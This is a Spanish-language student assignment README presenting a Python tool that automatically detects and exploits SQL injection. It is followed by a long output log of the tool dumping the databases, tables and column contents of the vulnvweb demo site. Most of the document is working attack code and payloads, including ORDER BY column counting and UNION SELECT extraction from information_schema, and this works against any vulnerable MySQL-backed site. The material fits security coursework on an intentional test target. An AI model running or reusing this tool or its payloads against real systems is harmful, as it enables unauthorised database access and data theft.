





# Practica 3 - Tema 6 - Ejercicio 1

## Resumen

Este código está probado en [vulvweb](http://testphp.vulnweb.com/listproducts.php?cat=1).

El código solo funciona en GET a la hora de explotar, por falta de tiempo. Pero te pone si se ha detectado un posible form vulnerable. ([Registro de vulnvweb](http://testphp.vulnweb.com/signup.php))

El código puede ser un poco caotico, ya que es la primera vez que desarrollo una herramienta en Python e iba con falta de tiempo.

## Código

```python
import requests
import sys
import re
import pprint
from bs4 import BeautifulSoup as bs
from urllib.parse import urlparse, urljoin
from prettytable import PrettyTable

s = requests.Session()
# Creo el User-Agent que voy a usar
s.headers["User-Agent"] = "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/83.0.4103.106 Safari/537.36"

class bcolors:
    HEADER = '\033[95m'
    OKGREEN = '\033[92m'
    WARNING = '\033[93m'
    FAIL = '\033[91m'
    ENDC = '\033[0m'

def banner():
    print("\n--------------------------------------------------------------------------------------------------------------------------------")
    print(bcolors.HEADER)
    print("  ▄████████ ████████▄    ▄█        ▄█          ▄████████  ▄████████    ▄████████ ███▄▄▄▄   ███▄▄▄▄      ▄████████    ▄████████  ")
    print("  ███    ███ ███    ███  ███       ███         ███    ███ ███    ███   ███    ███ ███▀▀▀██▄ ███▀▀▀██▄   ███    ███   ███    ███ ")
    print("  ███    █▀  ███    ███  ███       ███▌        ███    █▀  ███    █▀    ███    ███ ███   ███ ███   ███   ███    █▀    ███    ███ ")
    print("  ███        ███    ███  ███       ███▌        ███        ███          ███    ███ ███   ███ ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀ ")
    print("▀███████████ ███    ███  ███       ███▌      ▀███████████ ███        ▀███████████ ███   ███ ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   ")
    print("         ███ ███    ███  ███       ███                ███ ███    █▄    ███    ███ ███   ███ ███   ███   ███    █▄  ▀███████████ ")
    print("   ▄█    ███ ███  ▀ ███  ███▌    ▄ ███          ▄█    ███ ███    ███   ███    ███ ███   ███ ███   ███   ███    ███   ███    ███ ")
    print(" ▄████████▀   ▀██████▀▄█ █████▄▄██ █▀         ▄████████▀  ████████▀    ███    █▀   ▀█   █▀   ▀█   █▀    ██████████   ███    ███ ")
    print("                         ▀                                                                                           ███    ███ ")
    print(bcolors.ENDC)
    print("----------------------------------------------------- By MainDavis -------------------------------------------------------------\n\n")

def comprobarURL(url):
    #Compruebo que se ha metido el http o https para que no de errores

    if ("http://" in url) or ("https://" in url):
        return True
    else:
        return False

def vulnerable(response):
    #Verifico y si el html tiene uno de los errores
    errorsMySQL = { "warning: mysql", "you have an error in your sql syntax", "error executing query" }

    for error in errorsMySQL:
        
        if error in response:
            return True

    return False


def scanGETSQLI(url):
    #Funcion para poner a prueba el metodo GET poniendo comillas en cada parametro y probando
    print(bcolors.WARNING + "[!] Probando SQLI en url")

    vulv_parameters = []
    parse = urlparse(url)
    parameters = parse.query.split('&')
    
    if parameters[0] == "":
        return []

    for parameter in parameters:
        for c in "\"'":   
            new_url = url.replace(parameter, parameter + c)
            res = s.get(new_url).content.decode().lower()
            print(bcolors.WARNING + "[!] Probando", new_url)

            if vulnerable(res):
                print(bcolors.OKGREEN + "[+] Vulnerable el parametro " + parameter.split('=')[0])
                vulv_parameters.append(parameter.split('=')[0] + c)
    return vulv_parameters


def scanPOSTSQLI(url):

    print(bcolors.WARNING + "\n[!] Probando SQLI en forms")
    
    forms = getFormsURL(url)
    
    if len(forms) > 0:

        print(bcolors.OKGREEN + "[+] Encontrados", len(forms), "formularios en la pagina.")
        
        for form in forms:

            info_form = getInfoForm(form)

            for c in "\"'":
                
                #Datos que vamos a enviar
                datos = {}

                for input_tag in info_form['inputs']:
                    
                    #Si el input esta oculto o tiene valor
                    if input_tag["type"] == "hidden" or input_tag["value"]:
                        try:
                            datos[input_tag["name"]] = input_tag["value"] + c
                        except:
                            pass
                    
                    #A todos los demas se añade algo con comillas
                    elif input_tag["type"] != "submit":
                        datos[input_tag["name"]] = "var" + c
                
                url = urljoin(url, info_form["action"])
            
                res = ""
                
                if info_form["method"] == "post":
                    res = s.post(url, data=datos).content.decode().lower()
                elif info_form["method"] == "get":
                    res = s.get(url, params=datos).content.decode().lower()
                

                if vulnerable(res):
                    print(bcolors.OKGREEN + "\n[+] Vulnerabilidad detectada en el form:\n")
                    pp = pprint.PrettyPrinter()
                    pp.pprint(info_form)
                    break

    else:

        print(bcolors.FAIL + "\n\t[-] No se han encontrado formularios en la pagina.")


def getFormsURL(url):
    #Busca y recopila todos los forms
    print(bcolors.WARNING + "[!] Buscando formularios.")
    soup = bs(s.get(url).content, "html.parser")
    return soup.find_all("form")


def getInfoForm(form):
    #Analiza el form introducido para sacar la informacion

    #Form action

    try:
        action = form.attrs.get("action").lower()
    except:
        action = None
    
    #Form method

    method = form.attrs.get("method", "get").lower()

    #Informacion de los inputs

    inputs = []

    for input_tag in form.find_all("input"):

        input_name = input_tag.attrs.get("name")
        input_type = input_tag.attrs.get("type","text")
        input_value = input_tag.attrs.get("value", "")

        inputs.append({"name":input_name, "type":input_type, "value":input_value})

    info = {

            "action":action,
            "method":method,
            "inputs":inputs
    }

    return info

def recopilarInfoURL(vulv_url, url):
    print(bcolors.WARNING + "\n[!] Sacando informacion")
    for param in vulv_url:
        c = param[-1]
        # Ahora toca ver de que tipoc es el parametro
        # Primero probamos con un payload de tipo int
        print(url, param[0:-1])
        payload = url.replace(param[0:-1] + "=", param[0:-1]+"=1 order by 1000 -- -")
        res = s.get(payload).content.decode().lower()
        print(bcolors.WARNING + "[!] Ejecutando payload:", payload)
        
        if 'unknown column' not in res:
            # Ahora probamos con un String con comillas dobles
            payload = url.replace(param[0:-2], param[0:-1]+'=1" order by 1000 -- -')
            res = s.get(payload).content.decode().lower()
            print("[!] Ejecutando payload:", payload)

            if 'unknown columm' not in res:
                # Por ultimo probamos comillas simples
                payload = url.replace(param[0:-2], param[0:-1]+"=1' order by 1000 -- -")
                res = s.get(payload).content.decode().lower()
                print("[!] Ejecutando payload:", payload)

                if 'unknown column' not in res:
                    print(bcolors.FAIL + "[-] No ha funcionado nunguna prueba")
                    continue
                else:
                    tipo = "str'"
            else:
                tipo = 'str"'
        else:
            tipo = "int"

        print(bcolors.OKGREEN + "[+] Pruebas con exito en el parametro", param[0:-1], "con el tipo", tipo)
            
        # Ahora saco cuantos parametros tiene la consulta
        
        for i in range(1,101):
            payloadInfo = payload.replace("order by 1000", "order by " + str(i))
            print(bcolors.WARNING + "[!] Utilizando payload: " + payloadInfo)
            res = s.get(payloadInfo).content.decode().lower()

            if vulnerable(res):
                print(bcolors.OKGREEN + "[+] Encontrado numero de parametros:", i-1)
                n_parametros = i-1
                break
        
        #Una vez tengo el numero de parametro busco uno que se refleje en la pagina
        print(bcolors.WARNING + "[!] Buscando parametros que se reflejen")
        parameters = ""
        for i in range(0,n_parametros):
            if i == n_parametros-1:
                parameters = parameters + '"parametro' + str(i) + '"'
            else:
                parameters = parameters + '"parametro' + str(i) + '",'
        payload = payload.replace("order by 1000", "and 1=0 union select " + parameters)
        
        print(bcolors.WARNING + "[!] Utilizando payload: " + payload)
        
        res = s.get(payload).content.decode().lower()
        
        index_parametro = -1
        for i in range(0,n_parametros):
            keyword = '>parametro' + str(i)
            if keyword in res:
                print(bcolors.OKGREEN + "[+] El parametro con el indice", i, "se refleja")
                index_parametro = i
                break
        if index_parametro == -1:
            print(bcolors.FAIL + "[-] No se ha encontrado ningun parametro que se refleje")
            break
        
        #Una vez se el numero de parametro y el indice de uno que se refleje ya puedo sacar toda la informacion que quiera
        print(bcolors.WARNING + "\n[!] Sacando informacion de la base de datos")

        informacionTotal = {}

        # Primero saco las bases de datos que hay
        keyword = '"parametro' + str(index_parametro) + '"'
        payloadInfo = payload.replace(keyword, 'group_concat("<SQLI>",schema_name,"</SQLI>")')
        payloadInfo = payloadInfo.replace("-- -", "from information_schema.schemata -- -")
        print(bcolors.WARNING + "[!] Utilizando payload:", payloadInfo)
        
        soup = bs(s.get(payloadInfo).content, "html.parser")
        
        #Limpio la salida
        soup = soup.find_all('sqli')
        databases = []
        for w in soup:
            databases.append(w.text)
        
        if len(databases) == 0:
            print(bcolors.FAIL + "[-] Ha ocurrido un error sacando las bases de datos")
            return

        print(bcolors.OKGREEN + "[+] Se han encontrado", len(databases), "bases de datos:", databases)
        
        # Ahora saco las tablas de cada base de datos
        for database in databases:
            if database != "information_schema":
                payload = payloadInfo.replace("schema_name", "table_name")
                print(bcolors.WARNING + "\n[!] Buscando el nombre de las tablas de " + database)
                payload = payload.replace("schemata", "tables where table_schema='"+database+"'")
                print(bcolors.WARNING + "[!] Utilizando el payload: " + payload )

                soup = bs(s.get(payload).content, "html.parser")
                soup = soup.find_all('sqli')
                table_names = []
                for w in soup:
                    table_names.append(w.text)
                print(bcolors.OKGREEN + "[+] Se han encontrado", len(table_names), "tablas:", table_names)
                
                # Creo la informacion
                informacionTotal[database] = {}
                
                # Ahora saco las columnas de cada tabla
                
                for tabla in table_names:
                    print(bcolors.WARNING + "\n[!] Buscando las columnas de la tabla " + tabla)
                    payload = payloadInfo.replace("schema_name", "column_name")
                    payload = payload.replace("schemata", "columns where table_name='" + tabla + "'")
                    print(bcolors.WARNING + "[!] Utilizando el payload: " + payload)

                    soup = bs(s.get(payload).content, "html.parser")
                    soup = soup.find_all('sqli')
                    columns = []
                    for w in soup:
                        columns.append(w.text)
                    print(bcolors.OKGREEN + "[+] Se han encontrado", len(columns) , "columnas:", columns)
                    
                    #Creo la informacion
                    informacionTotal[database][tabla] = {}

                    # Ahora saco los datos de cada columna
                    
                    for column in columns:
                        print(bcolors.WARNING + "\n[!] Buscando los datos de la columna " + column)
                        payload = payloadInfo.replace("schema_name", column)
                        payload = payload.replace("information_schema.schemata", database + "." + tabla)
                        print(bcolors.WARNING + "\n[!] Utilizando el payload: " + payload)

                        soup = bs(s.get(payload).content, "html.parser")
                        soup = soup.find_all('sqli')
                        data = []
                        
                        for w in soup:
                            data.append(w.text)
                        print(bcolors.OKGREEN + "[+] Se han encontrado", len(data), "datos: ", data)
                                
                        # Fusiono toda la informacion
                        informacionTotal[database][tabla][column] = data

        return informacionTotal        
        
def menu(info):
    print(bcolors.OKGREEN + "[+] Terminado el proceso de analisis de la pagina\n\n" + bcolors.ENDC)
    
    database = ""
    
    exec = True

    while exec:

        if database == "":
            print("\nSelecciona una opcion:\n")
            print("\t1. Seleccionar base de datos")
            print("\t2. Ver base de datos")
            print("\t3. Salir\n")

            op = int(input("-> "))
            
            if op == 1 or op == 2:
                comprobar=True
                while comprobar:
                    print("\nSelecciona una de las siguientes bases de datos:",end=' ')
                    for db in info:
                        print(db, end=' ')
                    
                    txt_input = input("\n\n-> ")
                    
                    if txt_input in info:
                        comprobar = False
                
                if op == 1:
                    database = txt_input
                else:
                    t = PrettyTable([txt_input])
                    for w in info[txt_input]:
                        t.add_row([w])
                    print("\n", t)

            elif op == 3:
                exec = False

        else:
            print("\nSelecciona una opcion:\n")
            print("\t1. Ver tabla")
            print("\t2. Volver a seleccion de base de datos")
            print("\t3. Salir\n")
            
            op = int(input("[" + database + "] -> "))

            if op == 1:
                comprobar=True
                while comprobar:
                    print("\nSelecciona una de las siguientes tablas:", end=' ')
                    for tb in info[database]:
                        print(tb, end=' ')

                    txt_input = input("\n\n[" + database + "] -> ")

                    if txt_input in info[database]:
                        comprobar = False
                
                #Imprimo la tabla
                t = PrettyTable()
                for column in info[database][txt_input]:
                    t.add_column(column, info[database][txt_input][column])
                print(t)

            elif op == 2:
                database = ""

            elif op == 3:
                exec = False
                        

if __name__ == "__main__":
    
    url = sys.argv[1]

    if comprobarURL(url):
    
        banner()

        print(bcolors.WARNING + "[!] Utilizando la url: " + url + "\n")
        
        vulv_url = scanGETSQLI(url)
        
        vulv_form = scanPOSTSQLI(url)
        
        informacionTotal = {}

        if len(vulv_url) > 0:
            informacionTotal = recopilarInfoURL(vulv_url, url)

        # No está hecha la parte de vulnerar por Post
        #if len(vulv_form) > 0 and len(informacionTotal)==0:
        #    recopilarInfoForm(vulv_form, url)

        if len(informacionTotal)>0:
            menu(informacionTotal)
        else:
            print(bcolors.FAIL + "\n[-] No se ha encontrado ningun tipo de informacion")

    else:

        print(bcolors.FAIL + "\n[-] No has introducido bien la url, añade http:// o https://")
```

## Output explicado

Al principio del programa se muestra un banner con el nombre y el creador (yo).



Acto seguido empezará a buscar las vulnerabilidades por parámetro y por los forms de la página.



Depues buscará en los parámetro de la url su tipo y la cantidad de parámetros de la busqueda, junto a un parámetro que se refleje en la página.



Una vez terminado sacará toda la información de las bases de datos que se encuentren en la página.



Cuando termine de recopilar toda la información, se mostrará un menu en el que podrás seleccionar una de las bases de datos detectadas e imprimir el contenido de sus tablas.



## Output RAW

Se ha deformado el output al cambiar el tamaño.

```text

❯ python3 scanner.py "http://testphp.vulnweb.com/listproducts.php?cat=17&prueba=5"

--------------------------------------------------------------------------------------------------------------------------------

  ▄████████ ████████▄    ▄█        ▄█          ▄████████  ▄████████    ▄████████ ███▄▄▄▄   ███▄▄▄▄      ▄████████    ▄████████  
  ███    ███ ███    ███  ███       ███         ███    ███ ███    ███   ███    ███ ███▀▀▀██▄ ███▀▀▀██▄   ███    ███   ███    ███
  ███    █▀  ███    ███  ███       ███▌        ███    █▀  ███    █▀    ███    ███ ███   ███ ███   ███   ███    █▀    ███    ███
  ███        ███    ███  ███       ███▌        ███        ███          ███    ███ ███   ███ ███   ███  ▄███▄▄▄      ▄███▄▄▄▄██▀
▀███████████ ███    ███  ███       ███▌      ▀███████████ ███        ▀███████████ ███   ███ ███   ███ ▀▀███▀▀▀     ▀▀███▀▀▀▀▀   
         ███ ███    ███  ███       ███                ███ ███    █▄    ███    ███ ███   ███ ███   ███   ███    █▄  ▀███████████
   ▄█    ███ ███  ▀ ███  ███▌    ▄ ███          ▄█    ███ ███    ███   ███    ███ ███   ███ ███   ███   ███    ███   ███    ███
 ▄████████▀   ▀██████▀▄█ █████▄▄██ █▀         ▄████████▀  ████████▀    ███    █▀   ▀█   █▀   ▀█   █▀    ██████████   ███    ███
                         ▀                                                                                           ███    ███

----------------------------------------------------- By MainDavis -------------------------------------------------------------


[!] Utilizando la url: http://testphp.vulnweb.com/listproducts.php?cat=17&prueba=5

[!] Probando http://testphp.vulnweb.com/listproducts.php?cat=17"&prueba=5
[+] Vulnerable el parametro cat
[!] Probando http://testphp.vulnweb.com/listproducts.php?cat=17'&prueba=5
[+] Vulnerable el parametro cat
[!] Probando http://testphp.vulnweb.com/listproducts.php?cat=17&prueba=5"
[!] Probando http://testphp.vulnweb.com/listproducts.php?cat=17&prueba=5'

[!] Probando SQLI en forms
[!] Buscando formularios.
[+] Encontrados 1 formularios en la pagina.

[!] Sacando informacion
[!] Ejecutando payload: http://testphp.vulnweb.com/listproducts.php?cat=1 order by 1 -- -=17&prueba=5
[+] Pruebas con exito en el parametro cat con el tipo int
[+] Encontrado numero de parametros: 11
[!] Buscando parametros que se reflejen
[!] Utilizando payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0","parametro1","parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" -- -=17&prueba=5
[+] El parametro con el indice 1 se refleja

[!] Sacando informacion de la base de datos
[!] Utilizando payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",schema_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.schemata -- -=17&prueba=5
[+] Se han encontrado 2 bases de datos: ['information_schema', 'acuart']

[!] Buscando el nombre de las tablas de acuart
[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",table_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.tables where table_schema='acuart' -- -=17&prueba=5
[+] Se han encontrado 8 tablas: ['artists', 'carts', 'categ', 'featured', 'guestbook', 'pictures', 'products', 'users']

[!] Buscando las columnas de la tabla artists
[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",column_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.columns where table_name='artists' -- -=17&prueba=5
[+] Se han encontrado 3 columnas: ['adesc', 'aname', 'artist_id']

[!] Buscando los datos de la columna adesc

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",adesc,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.artists -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['\nLorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.\n    Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis\n    nulla. In hac habitasse platea dictumst. Nulla nonummy. Cras quis libero.\n    Cras venenatis. Aliquam posuere lobortis pede. Nullam fringilla urna id leo.\n    Praesent aliquet pretium erat. Praesent non odio. Pellentesque a magna a\n    mauris vulputate lacinia. Aenean viverra. Class aptent taciti sociosqu ad\n    litora torquent per conubia nostra, per inceptos hymenaeos. Aliquam lacus.\n    Mauris magna eros, semper a, tempor et, rutrum et, tortor.\n\n\nLorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.\n    Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis\n    nulla. In hac habitasse platea dictumst. Nulla nonummy. Cras quis libero.\n    Cras venenatis. Aliquam posuere lobortis pede. Nullam fringilla urna id leo.\n    Praesent aliquet pretium erat. Praesent non odio. Pellentesque a mpainted by: parametro8comment on this picture']

[!] Buscando los datos de la columna aname

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",aname,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.artists -- -=17&prueba=5
[+] Se han encontrado 3 datos:  ['r4w8173', 'Blad3', 'lyzae']

[!] Buscando los datos de la columna artist_id

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",artist_id,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.artists -- -=17&prueba=5
[+] Se han encontrado 3 datos:  ['1', '2', '3']

[!] Buscando las columnas de la tabla carts
[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",column_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.columns where table_name='carts' -- -=17&prueba=5
[+] Se han encontrado 3 columnas: ['cart_id', 'item', 'price']

[!] Buscando los datos de la columna cart_id

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",cart_id,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.carts -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['ee641421945e33ee9b6a1606ba28c017']

[!] Buscando los datos de la columna item

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",item,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.carts -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['1']

[!] Buscando los datos de la columna price

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",price,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.carts -- -=17&prueba=5
[+] Se han encontrado 1 datos:  ['500']

[!] Buscando las columnas de la tabla categ
[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",column_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.columns where table_name='categ' -- -=17&prueba=5
[+] Se han encontrado 3 columnas: ['cat_id', 'cdesc', 'cname']

[!] Buscando los datos de la columna cat_id

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",cat_id,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.categ -- -=17&prueba=5
[+] Se han encontrado 4 datos:  ['1', '2', '3', '4']

[!] Buscando los datos de la columna cdesc

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",cdesc,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.categ -- -=17&prueba=5
[+] Se han encontrado 4 datos:  ['Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.\n    Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis\n    nulla. In hac habitasse platea dictumst. Nulla nonummy. Cras quis libero.\n    Cras venenati', 'Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.\n    Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis\n    nulla. In hac habitasse platea dictumst. Nulla nonummy. Cras quis libero.\n    Cras venenati', 'Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.\n    Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis\n    nulla. In hac habitasse platea dictumst. Nulla nonummy. Cras quis libero.\n    Cras venenati', 'Lorem ipsum dolor sit amet, consectetuer adipiscing elit. Donec molestie.\n    Sed aliquam sem ut arcu. Phasellus sollicitudin. Vestibulum condimentum facilisis\n    nulla. In hac habitasse platea dictumst. Nulla ']

[!] Buscando los datos de la columna cname

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",cname,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.categ -- -=17&prueba=5
[+] Se han encontrado 4 datos:  ['Posters', 'Paintings', 'Stickers', 'Graffity']

[!] Buscando las columnas de la tabla featured
[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",column_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.columns where table_name='featured' -- -=17&prueba=5
[+] Se han encontrado 2 columnas: ['feature_text', 'pic_id']

[!] Buscando los datos de la columna feature_text

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",feature_text,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.featured -- -=17&prueba=5
[+] Se han encontrado 0 datos:  []

[!] Buscando los datos de la columna pic_id

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",pic_id,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.featured -- -=17&prueba=5
[+] Se han encontrado 0 datos:  []

[!] Buscando las columnas de la tabla guestbook
[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",column_name,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from information_schema.columns where table_name='guestbook' -- -=17&prueba=5
[+] Se han encontrado 3 columnas: ['mesaj', 'sender', 'senttime']

[!] Buscando los datos de la columna mesaj

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",mesaj,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.guestbook -- -=17&prueba=5
[+] Se han encontrado 0 datos:  []

[!] Buscando los datos de la columna sender

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",sender,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.guestbook -- -=17&prueba=5
[+] Se han encontrado 0 datos:  []

[!] Buscando los datos de la columna senttime

[!] Utilizando el payload: http://testphp.vulnweb.com/listproducts.php?cat=1 and 1=0 union select "parametro0",group_concat("<SQLI>",senttime,"</SQLI>"),"parametro2","parametro3","parametro4","parametro5","parametro6","parametro7","parametro8","parametro9","parametro10" from acuart.guestbook -- -=17&prueba=5
[+] Se han encontrado 0 datos:  []

[!] Buscando las columnas de la tabla pictures
